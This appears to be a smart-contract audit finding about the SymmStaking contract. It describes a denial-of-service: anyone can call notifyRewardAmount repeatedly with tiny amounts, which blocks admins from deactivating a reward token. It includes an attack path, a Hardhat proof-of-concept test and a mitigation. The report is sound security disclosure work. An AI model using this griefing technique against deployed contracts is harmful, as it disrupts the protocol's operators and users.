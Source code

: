 Sneaky Raspberry Zebra

Medium

# Allowing anyone to provide rewards for stakers allows malicious user to prevent the call of `configureRewardToken` to deactivate a reward token

### Summary

In order to allow for users to earn rewards, the `REWARD_MANAGER_ROLE` needs to call `SymmStaking::configureRewardToken` to approve certain tokens to be added as rewards.

Once the rewards have been given, the token may be removed from the list of rewards under the condition that there are at most `10 wei` of rewards of that token left to be distributed.

```solidity
	function configureRewardToken(address token, bool status) external onlyRole(REWARD_MANAGER_ROLE) {
		_updateRewardsStates(address(0));

		if (token == address(0)) revert ZeroAddress();
		if (isRewardToken[token] == status) revert TokenWhitelistStatusUnchanged(token, status);

		isRewardToken[token] = status;
		if (!status) {
@>	        if (pendingRewards[token] > 10) revert OngoingRewardPeriodForToken(token, pendingRewards[token]);
			uint256 len = rewardTokens.length;
			for (uint256 i = 0; i < len; i++) {
				if (rewardTokens[i] == token) {
					rewardTokens[i] = rewardTokens[rewardTokens.length - 1];
					rewardTokens.pop();
					break;
				}
			}
		} else {
			rewardTokens.push(token);
			rewardState[token].duration = DEFAULT_REWARDS_DURATION;
		}

		emit UpdateWhitelist(token, status);
	}
```

Since the function [`notifyRewardAmount`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275) is permissionless, any one can provide the staking contract with a few tokens. This will increase the `pendingRewards` variable for that token, and will prevent the call of `configureRewardToken` to deactivate it.

`pendingRewards` only decreases when a user claims his rewards. Because the rewards are distributed over a constant duration of 1 week, the attacker can redo this very cheap attack before the end of this duration to permanently DoS `SymmStaking::configureRewardToken`.

Since the protocol's details states that they need to identify any vulnerabilities that could allow attackers to disrupt the system's functionality in any way, I believe this vulnerability to be an acceptable medium.

### Root Cause

`configureRewardToken` reverts when there are more than 10 wei of pending rewards, while `notifyRewardAmount` allows for anyone to add pending rewards.

### Internal Pre-conditions

A token needs to be configured as a reward, and the protocol intends to deactivate it.

### External Pre-conditions

None

### Attack Path


1. Attacker calls `notifyRewardAmount` with little amount on a token that's supposed to be removed
2. The protocol can't call `configureRewardToken` to remove this token until the rewards are fully distributed, one week later
3. The attacker goes over step 1 again


### Impact

Reward tokens can't be removed. 


### PoC

Copy this test function at the end of `symmStaking.behavior.ts`.

```ts
// npx hardhat test --grep "allows attacker to DoS configureRewardToken"
it("allows attacker to DoS configureRewardToken", async function () {
	// Sends some USDT to user2 for this scenario
	await usdtToken.connect(admin).transfer(user2, "604800")

	// Scenario:
	// 1. User1 deposits tokens
	// 2. Admin configures USDT as reward token
	// 3. User2 notifies small rewards for USDT
	// 4. Admin tries to remove USDT and it gets reverted

	const depositAmount = "604800"
	await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
	await symmStaking.connect(user1).deposit(depositAmount, user1.address)

	// Admin configures and notifies USDT as reward token
	const rewardAmount = "604800"	// The attack would work with only 11 wei, but the calculations are off (because of rounding due to small digit) and user can't claim even after one week. This PoC assumes that an admin would not let the reward be so low and would add rewards liquidity, in hope for the attack to end.
	await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)

	await usdtToken.connect(user2).approve(await symmStaking.getAddress(), rewardAmount)
	await symmStaking.connect(user2).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])

	console.log("pendingRewards for USDT", await symmStaking.pendingRewards(await usdtToken.getAddress()))

	// Fast forward time by almost one week
	// The user can redo the attack up to 11 seconds before the week ends
	await time.increase(604800 - 11) 

	// -- The following shows that we can't prevent the attacker from doing the attack because the users can't claim all rewards

	// User1 claims rewards
	const user1BalanceBefore = await usdtToken.balanceOf(user1.address)
	await symmStaking.connect(user1).claimRewards()
	const user1BalanceAfter = await usdtToken.balanceOf(user1.address)
	const user1Claimed = user1BalanceAfter - user1BalanceBefore

	console.log("user1Claimed", user1Claimed)
	expect(user1Claimed).to.equal("604789")
	console.log("pendingRewards for USDT", await symmStaking.pendingRewards(await usdtToken.getAddress()))

	await expect(symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), false)).to.be.revertedWithCustomError(
		symmStaking,
		"OngoingRewardPeriodForToken",
	)

	// -- The attacker can repeat the attack, and another week needs to pass before the protocol can hope to remove the token
})
```

### Mitigation

If the permissionless nature of the function `notifyRewardAmount` is useful, consider adding a mapping of tokens scheduled for removal to prevent such behavior.
